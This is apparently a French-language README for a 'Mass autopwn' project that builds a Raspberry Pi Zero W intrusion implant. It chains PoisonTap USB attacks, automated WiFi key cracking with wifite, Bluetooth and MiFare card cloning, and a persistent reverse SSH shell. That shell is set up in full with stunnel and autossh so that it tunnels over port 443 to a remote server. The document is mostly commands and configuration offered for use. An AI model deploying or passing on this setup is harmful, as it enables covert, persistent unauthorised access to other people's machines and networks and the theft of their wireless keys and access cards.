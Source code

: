 # Mass autopwn

Vecteurs d'attaque:
1 - USB via emulation Ethernet (PoisonTap)
2 - Wifi avec crack auto des cles (wifite custom)
3 - Clonage des equipements Bluethoot
4 - Clone carte MiFare
5 - Reverse Shell

Scenarios :
SI branche a un pc ALORS
  1 - poison tap
  5 - Reverse Shell
SINON
  SI carte wifi secondaire ALORS
  	2 - Wifi avec crack auto des cles
  	5 - Reverse Shell
  SI carte MiFare ALORS
    4 - Clone carte MiFare
  SINON
    3 - clonage equipement Bluethoot



Installation :

Utilisation d'un Raspberry PI Zero W
Systeme : raspbian

Mise a jour :
sudo apt update
sudo apt upgrade

changement du mdp par defaut :
sudo passwd pi

configuration du wifi :
https://www.raspberrypi.org/documentation/configuration/wireless/wireless-cli.md

sudo nano /etc/wpa_supplicant/wpa_supplicant.conf

network={
    ssid="The_ESSID_from_earlier"
    psk="Your_wifi_password"
}

sudo wpa_cli reconfigure



3 - Wifi avec crack auto des cles (wifite custom)
necessite une antaine compatible
Installation des dependence pour hack wifi
sudo apt install aircrack-ng reaver tshark pyrit



Recuperation du script wifite
wget https://raw.githubusercontent.com/derv82/wifite/master/wifite.py



5 - Reverse Shell
encapsulation de la connexion ssh dans un tunnel SSL via stunnel
https://charlesreid1.com/wiki/RaspberryPi/SSH_Stunnel

https://charlesreid1.com/wiki/RaspberryPi/Reverse_SSH_Stunnel

configuration serveur :
sudo apt install stunnel4
cd /etc/stunnel/
openssl genrsa -out key.pem 2048
openssl req -new -x509 -key key.pem -out cert.pem -days 365
cat key.pem cert.pem >> /etc/stunnel/stunnel.pem
chmod 700 /etc/stunnel/stunnel.pem
vim /etc/stunnel/stunnel.conf

output = /var/log/stunnel4/stunnel.log
cert=/etc/stunnel/stunnel.pem
key=/etc/stunnel/stunnel.pem
pid=/var/run/stunnel4/stunnel.pid
[ssh]
accept = 443
connect = 127.0.0.1:22

stunnel4 /etc/stunnel/stunnel.conf


configuration client
sudo apt install stunnel4
cd /etc/stunnel/
scp server_ip:/etc/stunnel/stunnel.pem /etc/stunnel/stunnel.pem
vim /etc/stunnel/stunnel.conf

output 	= /var/log/stunnel4/stunnel.log
cert 	= /etc/stunnel/stunnel.pem
key	= /etc/stunnel/stunnel.pem
pid 	= /var/run/stunnel4/stunnel.pid
client  = yes
[ssh]
accept 	= 2200 
connect = 192.168.0.12:443

stunnel4 /etc/stunnel/stunnel.conf


lancement du reverse shell:
sur le client
autossh -R 2201:localhost:22 -p 2200 chris@localhost
ensuite sur le serveur
autossh -p 2201 pi@localhost

utilisation de autossh pour garder le tunnel alive

Pour ne plus avoir a taper de mdp entre la connexion client -> serveur
sur le client :
ssh-keygen -t dsa
cat ~/.ssh/id_dsa.pub
sur le serveur


POISON TAP
==========

Description :
-------------
https://samy.pl/poisontap/

GIT :
-----
https://github.com/samyk/poisontap



MASS-PWNING
===========

Description :
------------
http://virtualabs.fr/ndh16/ndh16-mass-pwning-bug.pdf
https://www.youtube.com/watch?v=tu6uELaAiJg


GIT :
-----
https://github.com/virtualabs/probeZero
https://github.com/DigitalSecurity/mockle



KEYSWEEPER
==========

Description :
-------------
http://samy.pl/keysweeper/